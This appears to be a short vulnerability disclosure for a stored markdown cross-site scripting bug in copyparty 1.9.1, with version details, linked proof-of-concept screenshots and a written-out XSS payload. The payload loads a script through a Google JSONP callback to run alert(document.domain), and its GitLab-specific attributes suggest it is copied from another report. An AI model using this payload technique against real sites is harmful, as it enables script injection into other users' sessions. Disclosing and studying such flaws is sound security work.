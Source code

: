 + Vendor Homepage: https://github.com/9001/copyparty
+ version : 1.9.1
+ EXPLOIT-AUTHOR : Noflag(CHT Security)
+ Software Link : https://github.com/9001/copyparty/archive/refs/tags/v1.9.1.zip
+ Tested on: kali
+ vuln : markdown XSS vuln

vuln issue :
There is a WEEKEND-PLANS function under the "http://192.168.xx.xx/" directory location that allows users to add files in md format. If the user enters xss payload in it, the attack will be successfully executed.

Vulnerability location : 
![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/f06801b0-e1f1-4c2c-b4ea-1d1b185631d9)


POC :
![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/a81e091e-a3e2-4f9e-882c-14f9b56e26a7)

https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/568dc4df-ab68-4d58-bb00-b9b515a830da

<a href='https://gitlab.com/vakzz-h1/design-xss/-/issues/2/designs/bbb%22class%3D%22gfm%22a%3D%27.png'>  
' data-design="1" data-issue="1" data-reference-type="design" data-original="  
  &lt;script src='https://apis.google.com/complete/search?client=chrome&q=alert(document.domain);//&callback=setTimeout'>&lt;/script>  
"
</a>  

